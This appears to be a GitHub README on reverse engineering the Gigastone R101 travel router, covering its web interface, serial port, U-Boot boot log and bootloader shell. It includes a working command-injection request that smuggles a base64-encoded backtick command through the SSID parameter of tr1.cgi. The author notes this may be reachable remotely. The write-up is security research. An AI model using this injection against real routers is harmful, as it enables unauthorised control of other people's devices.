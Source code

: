 # RE of Gigastone R101 Mini Wireless Router / Wireless Travel Router

The R101 is a cheap wireless router sold by Gigastone.
Gigastone is a electronics brand based in Taiwan.

[Amazon link1.](https://www.amazon.com/Gigastone-GS-TR1-R-Wireless-Travel-Router/dp/B01DR04V90)
[Amazon link2.](https://www.amazon.com/Gigastone-TR1-Wireless-Extension-Processor/dp/B0BVTYYDQH/)

![41-czovIRFL _AC_SX522_](https://github.com/skyler-ferrante/Gigastone-RE/assets/24577503/36e0f064-4b5e-4bf8-bdb5-3b70db17efa8)

# Web interface

After logging in with the default credentials, I watched network traffic from dev tools while setting the SSID.
It seems the device uses `tr1.cgi?cgi=2` for configuration.
The device uses base64 to send the SSID.
This field has command injection, and we can use the new SSID as the commands output.

SSID is set to base64 of string `` `echo hi` `` (`YGVjaG8gaGlgCg==`)
```
http://<ROUTER_IP>/cgi-bin/tr1.cgi?cgi=2&mode=0&ssid=YGVjaG8gaGlgCg==&ht=0&channel=0&dhcp=50&static=0&ip=0.0.0.0&subnet=0.0.0.0&gw=0.0.0.0&pppmode=0&pppusr=bnVsbA==&ppppwd=bnVsbA==&pwd=
```

This seems to be hittable from a remote IP.

# Hardware/Serial

We can find Gigastones filing for R101 in the [FCC ID](https://fccid.io/PLE-TRR1011) database

Looking at internal photos from FCCID, it looks like there's a serial port in the corner opposite the power button.

![image](https://github.com/skyler-ferrante/Gigastone-RE/assets/24577503/433ee296-e97e-460f-9b0a-e1deccdd58d3)

Soldering to the board and watching for serial confirms this.
I used a "USB to TTL" adapter to get serial from USB.
Using a multimeter in continuity mode showed the leftmost pin was ground.

Watching boot with baud set to 115200
```
U-Boot 1.1.4-ga519b4f0-dirtyOct  9 201317:21:10

AP121 (ar9331) U-boot

DRAM:  16 MB
Flash Manuf Id 0x0, DeviceId0 0x0, DeviceId1 0x0
flash size 4194304, sector count = 64
Flash:  4 MB
Using default environment

In:    serial
Out:   serial
Err:   serial
Net:   ag7240_enet_initialize...
No valid address in Flash. Using fixed address
No valid address in Flash. Using fixed address
: cfg1 0x5 cfg2 0x7114
eth0: 00:03:7f:09:0b:ad
eth0 up
: cfg1 0xf cfg2 0x7214
eth1: 00:03:7f:09:0b:ad
athrs26_reg_init_lan
ATHRS26: resetting s26
ATHRS26: s26 reset done
eth1 up
eth0, eth1
Hit any key to stop autoboot:  0
## Booting image at 9f300000 ...
   Image Name:   Linux Kernel Image
   Created:      2014-02-26   4:14:51 UTC
   Image Type:   MIPS Linux Kernel Image (lzma compressed)
   Data Size:    905965 Bytes = 884.7 kB
   Load Address: 80002000
   Entry Point:  801ea0e0
   Verifying Checksum at 0x9f300040 ...OK
   Uncompressing Kernel Image ... OK

Starting kernel ▒ɩ
                  ▒▒▒▒▒Zk▒*▒3▒  ▒▒▒YW▒▒
```

Watching boot with baud set to 128000
```
`@@▒▒▒▒▒▒▒▒▒`▒▒▒▒▒▒▒▒`▒▒`p▒y▒s`ppdp@^nN▒▒
`@@▒▒▒▒▒▒▒▒▒▒▒▒▒`▒▒▒▒▒▒@▒▒▒▒▒@^nN@▒▒
▒▒▒▒▒▒▒▒@▒▒▒▒▒▒ ...

Booting AR9330(Hornet)...
```

Hitting a key during boot brings us to a UBOOT shell
```
TR1> help
reset   - Perform RESET of the CPU
?       - alias for 'help'
boot    - boot default, i.e., run 'bootcmd'
bootd   - boot default, i.e., run 'bootcmd'
bootm   - boot application image from memory
cp      - memory copy
dhcp    - invoke DHCP client to obtain IP/boot params
erase   - erase FLASH memory
help    - print online help
httpd   - start webserver
md      - memory display
mm      - memory modify (auto-incrementing)
mtest   - simple RAM test
mw      - memory write (fill)
nm      - memory modify (constant address)
ping    - send ICMP ECHO_REQUEST to network host
printenv- print environment variables
progmac - Set ethernet MAC addresses
reset   - Perform RESET of the CPU
run     - run commands in an environment variable
setenv  - set environment variables
tftpboot- boot image via network using TFTP protocol
version - print monitor version
TR1>
```
